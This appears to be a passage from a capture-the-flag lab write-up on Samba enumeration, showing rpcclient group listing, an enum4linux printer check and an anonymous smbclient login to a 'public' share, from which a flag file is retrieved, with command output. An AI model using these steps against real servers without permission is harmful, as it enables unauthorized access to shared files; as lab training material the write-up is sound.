 ```bash
rpcclient $> enumdomgroups
group:[Maintainer] rid:[0x3ee]
group:[Reserved] rid:[0x3ef]
```

> 📌 Available domain groups are `Maintainer`, `Reserved`

- Check if samba server is configured for printing

```bash
enum4linux -i 192.187.39.3
```

```bash
 ============================================= 
|    Getting printer info for 192.187.39.3    |
 ============================================= 
No printers returned.
```

> 📌 No printers returned.

```bash
smbclient //192.187.39.3/public -N
```

```bash
smb: \> ls
 .       D  0  Tue Feb 14 21:58:47 2023
 ..      D  0  Tue Nov 27 13:36:13 2018
 secret  D  0  Tue Nov 27 13:36:13 2018
 dev     D  0  Tue Nov 27 13:36:13 2018
# ls command
```

![smbclient connection to "public" share](assets/image-20230214231827436.png)

> 📌 There are 2 directories present inside `public` share: `secret` and `dev`

![smb help](assets/image-20230214232351630.png)

```bash
smb: \> cd secret
smb: \secret\> ls
  .     D   0  Tue Nov 27 13:36:13 2018
  ..    D   0  Tue Feb 14 21:58:47 2023
  flag  N  33  Tue Nov 27 13:36:13 2018
  1981084628 blocks of size 1024. 39614508 blocks available
  
smb: \secret\> get flag
getting file \secret\flag of size 33 as flag (32.2 KiloBytes/sec) (average 32.2 KiloBytes/sec)
smb: \secret\> exit

root@attackdefense:~# cat flag 
```

<details><summary>Reveal Flag:  🚩</summary></details>
